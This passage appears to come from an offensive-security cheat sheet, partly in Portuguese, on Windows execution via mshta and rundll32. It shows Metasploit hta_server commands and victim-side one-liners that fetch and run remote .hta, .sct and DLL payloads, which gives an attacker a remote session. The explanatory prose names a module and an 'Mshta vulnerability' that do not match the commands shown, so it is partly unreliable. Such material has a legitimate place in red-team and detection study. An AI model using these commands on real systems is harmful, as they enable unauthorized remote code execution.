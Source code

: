 ```markup
var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</scriptlet>
```
#### **Mshta - Metasploit**

Mshta is a Microsoft HTML Application Host that allows you to execute HTML applications (.hta files) on Windows systems. It is a legitimate Windows component that can be abused by attackers to execute malicious code.

Metasploit, a popular penetration testing framework, provides a module called `exploit/windows/browser/mshta` that exploits the Mshta vulnerability. This module generates a malicious .hta file and delivers it to the target system. When the file is executed, it runs the specified payload, giving the attacker remote access to the system.

To use the `exploit/windows/browser/mshta` module, follow these steps:

1. Set the `RHOST` option to the IP address of the target system.
2. Set the `PAYLOAD` option to the desired payload.
3. Set the `LHOST` option to the IP address of the attacking machine.
4. Run the exploit.

Once the exploit is successful, the attacker will have a Meterpreter session, which provides a powerful interface to interact with the compromised system.

It is important to note that using Metasploit for unauthorized access to systems is illegal and unethical. This information is provided for educational purposes only.
```bash
use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set srvhost 192.168.1.109
msf exploit(windows/misc/hta_server) > set lhost 192.168.1.109
msf exploit(windows/misc/hta_server) > exploit
```

```bash
Victim> mshta.exe //192.168.1.109:8080/5EEiDSd70ET0k.hta #The file name is given in the output of metasploit
```
**Detectado pelo defensor**

## **Rundll32**

[**Exemplo de DLL hello world**](https://github.com/carterjones/hello-world-dll)
```bash
rundll32 \\webdavserver\folder\payload.dll,entrypoint
```
Processo realizando chamada de rede: **svchost.exe**\
Carga gravada no disco: **Cache local do cliente WebDAV**
```bash
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();
```
Processo realizando chamada de rede: **rundll32.exe**\
Carga gravada no disco: **cache local do IE**
